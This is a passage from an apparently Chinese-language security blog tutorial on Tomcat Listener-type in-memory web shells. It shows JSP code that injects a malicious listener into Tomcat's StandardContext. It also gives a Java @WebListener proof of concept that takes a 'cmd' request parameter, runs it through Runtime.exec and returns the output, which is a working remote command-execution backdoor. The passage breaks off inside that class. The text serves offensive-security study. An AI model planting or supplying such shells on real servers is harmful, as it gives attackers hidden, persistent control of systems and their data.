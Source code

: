 ```
  
    Object[] objects = standardContext.getApplicationEventListeners();  
    List<Object> listeners = Arrays.asList(objects);  
    List<Object> arrayList = new ArrayList(listeners);  
    arrayList.add(new ListenerMemShell());  
    standardContext.setApplicationEventListeners(arrayList.toArray());  
  
%>
```

成功

![img](https://drun1baby.top/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/ListenerSuccess.png)

- 这是 JSP 的写法，我们还可以和 Filter 型内存马一样，用 .java 的写法来完成。

PoC 如下，我这里实验失败了，师傅们可以自行测试一下

JAVA

```
package Listener;  
  
import javax.servlet.ServletRequestEvent;  
import javax.servlet.ServletRequestListener;  
import javax.servlet.annotation.WebListener;  
import javax.servlet.http.HttpServletRequest;  
import javax.servlet.http.HttpServletResponse;  
import java.io.BufferedReader;  
import java.io.InputStream;  
import java.io.InputStreamReader;  
import java.lang.reflect.Field;  
  
@WebListener  
public class ListenerShell implements ServletRequestListener {  
    @Override  
 public void requestDestroyed(ServletRequestEvent servletRequestEvent) {  
    }  
  
    @Override  
 public void requestInitialized(ServletRequestEvent servletRequestEvent) {  
        HttpServletRequest req = (HttpServletRequest)servletRequestEvent.getServletRequest();  
 HttpServletResponse resp = this.getResponseFromRequest(req);  
 String cmd = req.getParameter("cmd");  
 try {  
            String result = this.CommandExec(cmd);  
 resp.getWriter().println(result);  
 System.out.println("部署完成");  
 } catch (Exception e) {  
  
        }  
    }  
    public String CommandExec(String cmd) throws Exception {  
        Runtime rt = Runtime.getRuntime();  
 Process proc = rt.exec(cmd);  
 InputStream stderr =  proc.getInputStream();  
 InputStreamReader isr = new InputStreamReader(stderr);  
 BufferedReader br = new BufferedReader(isr);  
 String line = null;  
 StringBuffer sb = new StringBuffer();  
 while ((line = br.readLine()) != null) {  
            sb.append(line + "\n");  
 }  
        return sb.toString();  
 }  
```